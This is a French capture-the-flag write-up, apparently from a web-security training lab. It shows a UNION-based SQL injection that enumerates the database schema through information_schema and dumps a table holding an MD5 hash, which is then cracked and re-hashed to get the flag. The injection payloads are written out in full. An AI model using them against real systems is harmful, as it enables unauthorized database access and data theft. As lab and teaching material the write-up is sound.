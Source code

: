 `ip`/index.php?page=member

Note: tous les codes suivants ont été insérés dans l'input liée au submit.

si on submit vide, on obtient:
*You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1*

En testant `1 OR 2`, on constate qu'une requete SQL est donc possible :
Voici notre bible pour ce flag : *http://www.sqlinjection.net/column-names/*

`TRUE` permet de valider l'expression précédente. `UNION` permet de coupler les résultats d'une première requête avec une seconde dont les composantes doivent être les mêmes.

`TRUE UNION SELECT table_schema, table_name FROM information_schema.tables`

schema: Member_images
table: list_images

`TRUE UNION SELECT table_name, column_name FROM information_schema.columns`

Table: list_images
Column: id
Column: url
Column: title
Column: comment

Ce qui permet de rechercher 2 par 2 (étant limités par l'UNION) les résultats pour chaques colonnes de la table users:
`TRUE UNION SELECT title, comment FROM Member_images.list_images`
```
id: 5
url: borntosec.ddns.net/images.png
title: Hack me ?
comment: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

le décryptage de *1928e8083cf461a51303633093573c46* en md5 = *albatroz* qui passé en sha256 donne le flag : *f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188*